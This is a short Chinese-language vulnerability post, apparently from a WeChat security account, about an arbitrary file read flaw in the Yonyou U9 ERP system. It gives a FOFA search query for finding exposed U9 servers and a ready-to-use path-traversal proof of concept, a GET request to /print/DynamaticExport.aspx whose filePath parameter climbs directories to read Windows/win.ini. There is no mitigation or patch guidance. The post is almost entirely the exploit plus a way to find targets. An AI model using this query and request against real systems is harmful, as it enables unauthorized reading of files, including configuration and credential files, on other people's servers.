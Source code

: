 #  用友U9 DynamaticExport任意文件读取漏洞  
原创 安全透视镜  网络安全透视镜   2025-07-10 23:10  
  
fofa语法  
```
body="logo-u9.png"
```  
  
  
POC  
  
GET  
```
/print/DynamaticExport.aspx?filePath=../../../../../../../../../../../../Windows/win.ini
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6icy66iaCGzdwSliaQuia2D3ozEibibhQIsGdzicm8zq5jH9LuIdRzErfdmDNug57H8Q8icJQSLISqkGYib1w/640?wx_fmt=png&from=appmsg "")  
  
  
  
